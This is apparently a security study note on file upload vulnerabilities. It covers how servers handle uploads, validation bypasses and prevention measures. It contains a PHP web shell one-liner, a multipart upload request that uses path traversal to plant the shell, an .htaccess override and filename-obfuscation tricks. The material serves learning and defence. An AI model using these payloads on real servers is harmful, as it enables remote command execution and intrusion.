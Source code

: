 # File upload vulnerabilities :page_with_curl:
Vulnerabilities caused by accepting file uploads without sufficiently validating the file's content, size, or type.  In some cases the upload itself is the attack, other times the attacker will request the file they've upload to trigger the attack.

There are several types of attackes:

- `Content not validated`: allow an attacker to execute arbitrary script or code on the server.
- `File name/location not validated`: allow an attacker to overwrite existing files or upload files to a location they should not have access to.
- `Size not validated`: use file upload to consume memory and disk space (DoS).

## How web servers handle file requests

Web servers typically handle responses for resources as follows:

- `Non-executable files`: the file is served back to the user (e.g. `.png`).
- `Executable file`: the file is processed by the web server and the result is sent back to the user (e.g. `.php` or `.jsp`).
- `Executable file but server not configured to execute`: this will either trigger an error or send the content of the file back to the user, which can result in source code leakage.

:bulb: use the `Content-Type` header's MIME type to determine what type of file the server thinks it has sent you.

## Attacks

### Deploying a web shell

A web shell is when an attacker can upload a file that allows them to execute any command on a web server:

```php
# execute arbitrary commands
# GET /example/exploit.php?command=echo%20%2Fetc%2Fpasswd HTTP/1.1
<?php echo system($_GET['command']); ?>
```

### Exploit file upload validation

#### Flawed file type validation

Uploads using `multipart/form-data` will send a request like the following:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

Some image description right here

---------------------------012345678901234567890123456--
```

If the server trusts the `Content-Type: image/jpeg` value in the request and performs no further validation, it easy to upload a malicious file.

#### Bypass strict execution control in user-controlled directories

Server will usually be configured to prevent execution of any files in user upload directories.  It may be possible to cause the file to be uploaded to a new, unexpected location by altering the `filename` parameter in the upload request:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="../../exploit.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>

```

#### Insufficient block of malicious filetypes

Servers may be configured to prevent execution of `.php` files, but may not block lesser known dynamic file types like `.php5` or `.shtml`.

##### Overriding server configuration

It may be possible to upload a file that changes the configuration for a given directory, thereby allowing execution of the malcious file:

```sh
# .htaccess granting execution of .php files in an a user controlled upload directory
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

#### Obfuscation of file extension

Cause the server to execute a file with a different extension:

- Altered case: `malicious.pHp`
- Double file extenstion: `malicious.php.jpg`
- URL encoded file extension: `malicious%2Ephp`
- Null byte or semicolon to terminate: `malicious.php%00.jpg` or `malicious.php;.jpg`
- Unicode encoding: `malicious%u002ephp`
- Buried file extension, which will be stripped by the server: `malicious.p.phphp`

#### Flawed validation of file contents

Servers may try to determine file contents by checking properties of the files:

- Image file dimensions; or
- Expected byte sequences in the file.

However, these can be faked with something like [ExifTool](https://exiftool.org/).

#### Upload race conditions

Relies on the attacker uploading and attempting to execute the malicious file before the file server can scan and determine the file is malicious.

This can also be perfomed by file upload that accepts a file URL.  The attacker can attempt to lengthen the amount of time they have for an attack by putting the attack payload at the beginning of the file and then padding the upload with arbitrary data.

### Exploits without server-side execution

- `XSS`: upload a file that is consumed by other users (e.g. profile picture) and attacks the other user's account.
- `XXE`: if the file accepts XML based uploads, you can attempt attackes through files like `.doc` or `.xls` files.

### Upload via PUT

Some servers will accept file uploads through `PUT` requests that are not as rigorously validated as `POST` requests.  

:bulb: You can use an `OPTIONS` request to check if `PUT` is supported.

## Prevent

- Validate the file type, size, and content.
- Use an established file upload framework.
- Randomise the file name and location.
- Do not allow directory traversal characters `../` in the filename.
- Only move files to the server's permanent file system once they have been validated.
- Determine the safe max file size that can be uploaded.
- Deny execution of all files by default and then safe-list specific file types that can be executed.
- IP rate limit on file uploads to prevent DoS.

## Tools

- [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy/using)
- [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using)
- [ExifTool](https://exiftool.org/)

## References
- https://portswigger.net/web-security/file-upload